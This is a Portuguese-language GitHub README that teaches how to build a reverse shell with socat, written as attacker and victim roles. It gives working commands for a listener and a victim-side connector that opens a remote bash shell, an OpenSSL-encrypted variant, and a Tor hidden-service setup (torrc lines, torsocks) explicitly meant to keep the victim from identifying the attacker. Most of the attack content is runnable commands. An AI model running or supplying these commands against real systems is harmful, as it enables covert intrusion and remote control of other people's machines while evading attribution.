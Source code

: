 <p align="center">

<h1 align="center"> Shell reverso interativo e criptografado 
<h1 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso, precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados através do um terminal. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta. Assim permite que o atacante abra uma porta de escuta em seu servidor e através dessa porta receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Existem vários tipos de [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), mas utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Atacante:

```shell

# Servidor

PORT="1111"

openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"

socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```

Vítima:

```shell
# CLiente
HOST=localhost
PORT=80
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid
```
## Shell reverso utilizando a rede tor

Em sistemas robustos são guardados logs de conexões. Desta forma o endereço de ip da atacante seria facimente descoberto. Para tornar o endereço do atacante desconhecido, o atacante precisa ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa do proxy tor para redirecionar o servidor socat para rede tor. Para isso, a o atacante precisa adicionar as seguintes linhas ao arquivo <strong>/etc/tor/torrc</strong>

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```
Desta forma, todas as requisições que vierem da rede tor pela porta 1111 serão redirecionadas para localhost:1111.

Agora reinicie o proxy tor:

```
systemctl restart tor
```

Para descobrir qual é o host do atacante na rede tor:

```bash
cat /var/lib/tor/service/hidden/hostname

# Aparecerá algo algo assim
# Exemplo
dominio-do-atacante.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=dominio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor, mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Mas agora é extremamente difícil para vitima identificar o atacante.

## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
